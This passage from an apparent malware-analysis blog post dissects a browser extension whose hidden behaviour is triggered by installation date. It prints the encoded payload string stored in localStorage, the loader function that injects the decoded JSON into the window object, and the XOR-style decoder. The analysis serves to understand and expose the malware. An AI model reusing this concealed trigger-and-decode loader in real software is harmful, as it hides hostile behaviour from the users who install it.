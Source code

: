 ```
no-cache,NTM2MTEzeChZb1koQTBfFX5pWRY4FFNLexxTNhogb0dlOlFFHHxoLQ1uVFlYBDJ7CHIKZ1pdWlR-eV4xVTNkIUJBMCM6K1UqFUpEEX13bVt6WRFfVjxwSD8KbjUuGx03NSFhGmBhZiExVEUUQFFbOXBUZV13LC1X
```

So why did I try modifying the date? Was it a stroke of luck? Why, no. You see, this approach of relying on the date to trigger a particular behavior isn't some newfangled strategy but rather something that dates back to the MS-DOS days. A very well known DOS virus is called [Jerusalem](https://en.wikipedia.org/wiki/Jerusalem_(computer_virus)), which infected every executable file on the system every Friday the 13th except in 1987. 

After some testing, I pinpointed that if your installation date is greater than a day from today, then the `cache-control` field will contain the extra encoded string we see above. Just looking at it, the encoded string does not mean anything, but maybe reading the code will give us some hints.

My first instinct was to look at any part of the code that used the `cache-control` key anywhere. The first snippet I found is in this function:

```js
getMediaPath: function() {
    var a = window.localStorage;
    console.trace('getMediaPath', a);
    if (a["cache-control"]) {
        var b = a["cache-control"].split(",");
        try {
            var c;
            for (var d in b) {
                var e = b[d].trim();
                if (!(e.length < 10)) try {
                    if (c = e.strvstrevsstr(), c = "undefined" != typeof JSON && JSON.parse && JSON.parse(c), c && c.cache_c) {
                        for (var f in c) window[f] = c[f];
                        A = !0;
                        break
                    }
                } catch (g) {}
            }
        } catch (g) {}
        this.setMediaPath()
    }
},
```

If the `cache-control` key exists inside local storage, then the `getMediaPath` function would split the value in `cache-control`, split it, and then call `strvstrevsstr` on the string value that is greater than length 10. We know that the split will always have 2 elements and `strvstrevsstr` will be used to decode the encoded string to a JSON object. To test, I grabbed the definition for `strvstrevsstr` and ran it in the inspector tool's console.

```js
String.prototype.strvstrevsstr = function() {
    var a = this;
    this.length % 4 != 0 && (a += "===".slice(0, 4 - this.length % 4)), a = atob(a.replace(/\-/g, "+").replace(/_/g, "/"));
    var b = parseInt(a[0] + a[1], 16),
        c = parseInt(a[2], 16);
    a = a.substr(3);
    var d = parseInt(a);
    if (a = a.substr(("" + d).length + 1), d != a.length) return null;
    for (var e = [String.fromCharCode], f = 0; f < a.length; f++) e.push(a.charCodeAt(f));
    for (var g = [], h = b, i = 0; i < e.length - 1; i++) {
        var j = e[i + 1] ^ h;
        i > c && (j ^= e[i - c + 1]), h = e[i + 1] ^ b, g.push(e[0](j))
    }
    return g.join("");
}
```

